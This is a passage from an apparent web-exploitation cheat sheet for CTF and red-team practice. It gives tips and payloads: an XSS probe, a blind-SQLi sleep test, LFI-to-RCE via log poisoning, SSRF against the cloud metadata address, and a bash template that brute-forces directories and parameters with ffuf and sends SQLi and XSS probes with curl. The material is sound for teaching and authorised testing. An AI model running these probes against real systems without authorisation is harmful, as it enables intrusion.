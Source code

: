 ***

### VI. 🧠 Pro Tips & Red Team Tricks

✅ **Methodology**

1. Enumerate endpoints → Identify parameters
2. Check for input reflections and responses
3. Automate with tools, validate manually
4. Use Burp Intruder for precision fuzzing

✅ **XSS Hunting**

* Use `<img src=x onerror=alert(1)>` instead of `<script>`.
* Look for input in **HTML attributes**, **JavaScript**, and **URLs**.

✅ **SQLi Optimization**

* Always test `sleep(5)` to detect blind SQLi.
* Dump tables manually if `sqlmap` fails.

✅ **LFI / RFI**

* Chain LFI → RCE using log poisoning or `/proc/self/environ`.

✅ **SSRF**

* Target cloud metadata (`169.254.169.254`) or internal admin panels.

✅ **Automation Tip**\
Use your own one-liners:

```bash
for url in $(cat urls.txt); do
    curl -s $url | grep -i "error\|warning\|syntax"; 
done
```

***

### VII. ⚔️ Bonus: Universal Web Exploitation Template

```bash
#!/bin/bash
# Web Exploitation Template - CTF Automation
target=$1
echo "[+] Scanning: $target"

# Directory brute force
ffuf -u http://$target/FUZZ -w /usr/share/wordlists/dirb/common.txt -t 50

# Parameter discovery
ffuf -u http://$target/index.php?FUZZ=test -w /usr/share/wordlists/params.txt

# SQLi test
curl -s "http://$target/page.php?id=1'" | grep "SQL"

# XSS test
curl -s "http://$target/search?q=<script>alert(1)</script>"
```

***

